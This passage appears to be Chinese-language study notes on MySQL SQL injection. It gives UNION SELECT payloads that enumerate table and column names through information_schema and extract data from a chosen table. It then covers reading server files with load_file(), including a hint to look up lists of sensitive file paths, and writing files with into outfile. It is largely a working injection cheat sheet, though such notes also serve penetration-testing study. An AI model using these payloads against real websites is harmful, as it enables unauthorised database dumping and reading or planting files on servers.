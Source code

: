 注意：表名通常有多个，所以只用1,table_name,3,4则只会显示一个，所以用group_concat(table_name)，从而显示多个



## 查询某表中所有列名

?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='选定的表'



## 查询指定数据

use 数据库名;

?id=-1 union select 1,列名,列名,4 from 选定的表 limit ...

注意：limit：[x,y)

limit 0,1 表示查询第一个

limit 1,1表示查询第二个

若有多个限制条件，则where+and



# 细节

## 文件读写操作

需要secure_file_priv=空，即获取数据库对其他文件的读取权限

=null，不允许任何

=路径，路径目录允许

需去my.ini设置[mysqld]的 secure_file_priv=‘’（空格都不要）,重启服务即可net start/stop mysql。（我曾用默认路径，怎么都运行不好，变成空就好了）

#### load_file()：读取函数

eg. select load_file('c:/error.txt');

注意：路径中最好用/，因为\n还是会被解析成换行，可以用双斜杠'\\'

临时改变编码：

```
select convert(load_file('e:/a.txt') using utf8);
```

有的文件读取的时候会包含另外的文件，导致读不出本来的结果，这时候用load_file就可以看源文件

1.读取确定的文件

2.随机读取，可以在网上找到很多敏感文件地址。

#### into outfile或 into dumpfile：导出函数

eg. select 'x' into outfile 'd:/www.txt';
